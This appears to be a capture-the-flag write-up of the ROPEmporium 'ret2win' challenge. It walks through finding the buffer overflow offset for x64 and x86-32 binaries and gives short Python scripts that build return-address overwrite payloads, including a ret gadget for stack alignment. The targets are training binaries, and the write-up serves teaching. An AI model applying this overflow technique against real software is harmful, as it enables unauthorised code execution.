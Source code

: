 ```yaml
---
title: "ret2win | ROPEmporium [1]"
date: 2024-11-11T11:41:24+05:00
tldr: ROPEmporium - 1, ret2win task writeup
toc: true
summary: One common introductory ROP challenge is known as **ret2win**. The goal is to call a specific function in the program called `ret2win`, which prints a success message and reveal a flag.txt
---
```



# ret2win

One common introductory ROP challenge is known as **ret2win**. The goal is to call a specific function in the program called `ret2win`, which prints a success message and reveal a flag.txt

In the example code below, we’ll find out the first the offset of buffer overflow, and then `ret2win` function's address in the binary. The task is to overwrite the program’s return address with `ret2win` address, causing the program to execute `ret2win`.

Buffer

![image.png](image.png)

## x64 - ret2win

1. To find out offset first we will generate cyclic pattern with 100 bytes

![image.png](image1.png)

run the binary and put your generated cyclic payload into buffer, it overflows and responses with `SIGSEGV` 

in that moment we go and check in which offset buffer ends and moves to registers RBP and to Return Address

![image.png](image2.png)

This shows that to overwrite RBP, we need an offset of only 32 bytes, and to overwrite the saved RIP (or return address), we need an offset of 40 bytes.

1. We can find the address of  `ret2win`  using the command `objdump -M intel -D ./binary | grep ret2win` 

![image.png](image3.png)

## x64 - Payload

```python
import struct

# Address of ret2win function (replace with the correct one from your binary)
ret2win_address = 0x0000000000400756  # Example, use your binary's actual address

# Buffer overflow offset (found during the analysis, e.g., with gdb)
offset = 40  # Example, adjust as needed
ret    = 0x40053e
# Construct the payload
payload = b'A' * offset  # Filler to overflow the buffer
payload += struct.pack("<Q", ret) 
payload += struct.pack("<Q", ret2win_address)  # Address of ret2win
# Send the payload to the program
print(payload)
with open("payload", "wb") as f:
    f.write(payload)

print(f"Payload written to file. Length: {len(payload)} bytes")
```

## x64 - Result 

![image.png](image4.png)

- ## Note
    `struct.pack("<Q", 0xdeadbeefdeadbeef)` converts the hexadecimal value into a binary representation using little-endian byte order.
    
    `<Q`  - For 64-bit little-endian
    
    `<I`  - For 32-bit little-endian
    And you might wonder why we place the `ret` instruction before calling the function itself. This is to ensure stack alignment, which is one of the common pitfalls in x64 ROP exploitation.
    
    **The MOVAPS issue**
    If you're segfaulting on a movaps instruction in `buffered_vfprintf()` or `do_system()` in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as `printf()` or `system()`. Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction. (Source: [https://ropemporium.com/guide.html](https://ropemporium.com/guide.html))
    

## x86-32 - ret2win32

We will determine the offset required for overflowing the stack and then place our entire payload there, just as we did with an `ret2win`.

![image.png](image5.png)

![image.png](image6.png)

## x86-32 - Payload

```livescript
import struct

# Address of the ret2win function (replace with the correct address from your 32-bit binary)
ret2win_address = 0x0804862c  # Example 32-bit address, replace with actual

# Offset to overwrite the return address (determined from buffer overflow analysis)
offset = 44  # Adjust this based on your analysis

# Construct the payload
payload = b'A' * offset            # Padding to overflow the buffer
payload += struct.pack("<I", ret2win_address)  # Address of ret2win (32-bit address)

# Write the payload to a file or send it to the binary
with open("payload", "wb") as f:
    f.write(payload)

print(f"Payload length: {len(payload)} bytes")
```

 If you’re not using GDB with GEF, try reversing the binary and calculating the offset; this is often easier to accomplish with IDA.

## x86-32 - Result

![image.png](image7.png)
